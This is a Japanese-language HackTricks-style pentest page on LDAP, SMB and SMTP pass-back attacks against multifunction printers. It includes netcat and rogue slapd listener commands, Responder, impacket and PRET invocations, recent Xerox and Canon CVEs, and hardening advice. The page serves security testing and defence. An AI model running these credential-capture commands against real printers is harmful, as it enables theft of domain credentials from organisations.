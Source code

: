 # プリンタの情報

{{#include ../../banners/hacktricks-training.md}}

インターネット上には、**デフォルト/弱い**ログイン資格情報でLDAPが設定されたプリンタの危険性を**強調する**ブログがいくつかあります。 \
これは、攻撃者が**プリンタを騙して不正なLDAPサーバーに対して認証させる**ことができるためです（通常、`nc -vv -l -p 389`または`slapd -d 2`で十分です）し、プリンタの**資格情報を平文でキャプチャ**することができます。

また、いくつかのプリンタには**ユーザー名を含むログ**があり、ドメインコントローラから**すべてのユーザー名をダウンロード**できる場合もあります。

これらの**機密情報**と一般的な**セキュリティの欠如**により、プリンタは攻撃者にとって非常に興味深いターゲットとなります。

このトピックに関するいくつかの入門ブログ：

- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

---
## プリンタの設定

- **場所**: LDAPサーバーのリストは通常、ウェブインターフェースにあります（例：*ネットワーク ➜ LDAP設定 ➜ LDAPの設定*）。
- **動作**: 多くの組み込みウェブサーバーは、**資格情報を再入力せずにLDAPサーバーの変更**を許可します（使いやすさの機能 → セキュリティリスク）。
- **エクスプロイト**: LDAPサーバーのアドレスを攻撃者が制御するホストにリダイレクトし、*接続テスト* / *アドレス帳の同期*ボタンを使用してプリンタをあなたにバインドさせます。

---
## 資格情報のキャプチャ

### 方法1 – Netcatリスナー
```bash
sudo nc -k -v -l -p 389     # LDAPS → 636 (or 3269)
```
小型/古いMFPは、netcatがキャプチャできるクリアテキストで単純な *simple-bind* を送信する場合があります。最新のデバイスは通常、最初に匿名クエリを実行し、その後にバインドを試みるため、結果は異なります。

### 方法2 – フルローグLDAPサーバー（推奨）

多くのデバイスが認証する前に匿名検索を発行するため、実際のLDAPデーモンを立ち上げることで、はるかに信頼性の高い結果が得られます：
```bash
# Debian/Ubuntu example
sudo apt install slapd ldap-utils
sudo dpkg-reconfigure slapd   # set any base-DN – it will not be validated

# run slapd in foreground / debug 2
slapd -d 2 -h "ldap:///"      # only LDAP, no LDAPS
```
プリンターがルックアップを実行すると、デバッグ出力に平文の認証情報が表示されます。

> 💡  `impacket/examples/ldapd.py`（PythonのロゲLDAP）や`Responder -w -r -f`を使用して、LDAP/SMB経由でNTLMv2ハッシュを収集することもできます。

---
## 最近のパスバック脆弱性 (2024-2025)

パスバックは*理論的な問題ではありません* – ベンダーは2024/2025年にこの攻撃クラスを正確に説明するアドバイザリーを発表し続けています。

### Xerox VersaLink – CVE-2024-12510 & CVE-2024-12511

Xerox VersaLink C70xx MFPのファームウェア≤ 57.69.91は、認証された管理者（またはデフォルトの認証情報が残っている場合は誰でも）が以下を行うことを許可しました：

* **CVE-2024-12510 – LDAPパスバック**: LDAPサーバーアドレスを変更し、ルックアップをトリガーすることで、デバイスが構成されたWindows認証情報を攻撃者が制御するホストに漏洩させる。
* **CVE-2024-12511 – SMB/FTPパスバック**: *スキャン先フォルダー*の宛先を介して同様の問題が発生し、NetNTLMv2またはFTPの平文認証情報が漏洩する。

次のようなシンプルなリスナー：
```bash
sudo nc -k -v -l -p 389     # capture LDAP bind
```
or a rogue SMB server (`impacket-smbserver`) は、資格情報を収集するのに十分です。

### Canon imageRUNNER / imageCLASS – 2025年5月20日 警告

Canonは、数十のレーザーおよびMFP製品ラインにおける**SMTP/LDAPパスバック**の脆弱性を確認しました。管理者アクセスを持つ攻撃者は、サーバー設定を変更し、LDAP **または** SMTPの保存された資格情報を取得できます（多くの組織はスキャンからメールへの送信を許可するために特権アカウントを使用します）。

ベンダーのガイダンスは明示的に次のことを推奨しています：

1. 利用可能になり次第、パッチが適用されたファームウェアに更新すること。
2. 強力でユニークな管理者パスワードを使用すること。
3. プリンタ統合のために特権ADアカウントを避けること。

---
## 自動列挙 / 攻撃ツール

| ツール | 目的 | 例 |
|------|---------|---------|
| **PRET** (Printer Exploitation Toolkit) | PostScript/PJL/PCLの悪用、ファイルシステムアクセス、デフォルト資格情報のチェック、*SNMP発見* | `python pret.py 192.168.1.50 pjl` |
| **Praeda** | HTTP/HTTPS経由で設定を収集（アドレス帳やLDAP資格情報を含む） | `perl praeda.pl -t 192.168.1.50` |
| **Responder / ntlmrelayx** | SMB/FTPパスバックからNetNTLMハッシュをキャプチャおよび中継 | `responder -I eth0 -wrf` |
| **impacket-ldapd.py** | プレーンテキストバインドを受信する軽量のロゲLDAPサービス | `python ldapd.py -debug` |

---
## ハードニング & 検出

1. **パッチ / ファームウェア更新** MFPを迅速に行う（ベンダーのPSIRT公告を確認）。
2. **最小特権サービスアカウント** – LDAP/SMB/SMTPにドメイン管理者を使用しない; *読み取り専用* OUスコープに制限する。
3. **管理アクセスの制限** – プリンタのWeb/IPP/SNMPインターフェースを管理VLANに配置するか、ACL/VPNの背後に置く。
4. **未使用プロトコルの無効化** – FTP、Telnet、raw-9100、古いSSL暗号。
5. **監査ログの有効化** – 一部のデバイスはLDAP/SMTPの失敗をsyslogできる; 予期しないバインドを相関させる。
6. **異常なソースからのプレーンテキストLDAPバインドを監視**（プリンタは通常DCとだけ通信するべきです）。
7. **SNMPv3またはSNMPを無効化** – コミュニティ`public`はしばしばデバイスおよびLDAP設定を漏洩します。

---
## 参考文献

- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)
- Rapid7. “Xerox VersaLink C7025 MFP Pass-Back Attack Vulnerabilities.” 2025年2月。
- Canon PSIRT. “レーザープリンタおよび小型オフィス多機能プリンタに対するSMTP/LDAPパスバックの脆弱性緩和。” 2025年5月。

{{#include ../../banners/hacktricks-training.md}}
